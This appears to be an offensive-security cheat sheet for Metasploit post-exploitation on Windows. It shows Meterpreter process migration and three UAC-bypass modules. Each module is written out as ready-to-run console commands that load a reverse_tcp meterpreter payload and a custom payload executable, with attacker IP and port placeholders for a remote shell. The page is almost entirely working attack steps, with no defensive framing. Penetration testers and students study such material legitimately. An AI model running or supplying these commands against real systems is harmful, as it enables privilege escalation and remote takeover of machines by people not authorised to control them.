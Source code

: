 # Metasploit

Migrate to a 64-bit process ID architecture in order to perform privilege escalation

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>.exe

meterpreter > background
```

There are two MSF modules for **BypassUAC**

This uses a payload as a dropper (this will touch the disk).

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac

msf exploit(windows/local/bypassuac) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac) > set target Windows x64

msf exploit(windows/local/bypassuac) > set exe::custom /path/to/local/custom_payload.exe

msf exploit(windows/local/bypassuac) > run lhost=<IP> lport=<PORT> session=<session_ID>
```

This will execute it through memory

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection

msf exploit(windows/local/bypassuac_injection) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection) > set target Windows x64

msf exploit(windows/local/bypassuac_injection) > set exe::custom /path/to/local/custom_payload.exe

msf exploit(windows/local/bypassuac_injection) > run lhost=<IP> lport=<PORT> session=<session_ID>
```

Performing Privilege escalation that abuses WinSXS

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection_winsxs

msf exploit(windows/local/bypassuac_injection_winsxs) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection_winsxs) > set target Windows x64

msf exploit(windows/local/bypassuac_injection_winsxs) > set exe::custom /path/to/local/custom_payload.exe

msf exploit(windows/local/bypassuac_injection_winsxs) > run lhost=<IP> lport=<PORT> session=<session_ID>
```